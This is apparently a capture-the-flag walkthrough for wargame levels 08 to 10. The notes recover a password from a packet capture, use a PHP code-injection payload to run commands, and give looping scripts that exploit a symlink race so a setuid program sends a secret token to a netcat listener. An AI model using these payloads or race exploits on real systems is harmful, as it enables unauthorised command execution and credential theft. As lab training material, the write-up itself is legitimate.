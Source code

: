 #### 0x08 level08
    mykey:
        scp level08@192.168.2.140:/home/flag08/capture.pcap /root/Desktop/
        wireshark to open /root/Desktop/capture.pcap
        use wireshark,choose any tcp data,right click mouse,choose follow tcp stream
        find password:...
        use hex dump view to find 7f==>. is backspace
        su - flag08
        pass:backd00Rmate
        getflag

#### 0x09 level09
    mykey:
        vi /tmp/level09.txt
        ----content----
        [email {${system($use_me)}}]
        -----end-------
        cd /home/flag09
        ./flag09 /tmp/level09.txt getflag

#### 0x10 level10
    mykey:
        vi /tmp/level10_1
        ----conent------
        #!/bin/sh
        while true;
        do
            ln -sf /tmp/level10_2 /tmp/level10_3
            ln -sf /home/flag10/token /tmp/level10_3
        done
        ----end---------
        touch /tmp/level10_2
        touch /tmp/level10_3
        chmod +x /tmp/level10_1
        vi /tmp/level10_11
        ------content------
        #!/bin/sh
        while true;
        do
            /home/flag10/flag10 /tmp/level10_3 192.168.2.140
        done
        -----end-----------
        chmod +x /tmp/level10_3
        use another terminal:
            nc -lv 18211
        use another terminal:
            ssh level10@192.168.2.140
            pass:level10
            /tmp/level10_1
        use another terminal:
            ssh level10@192.168.2.140
            pass:level10
            /tmp/level10_11
        find the terminal with nc -lv 18211 received the content of token
        su - flag10
        pass:content of token
        getflag
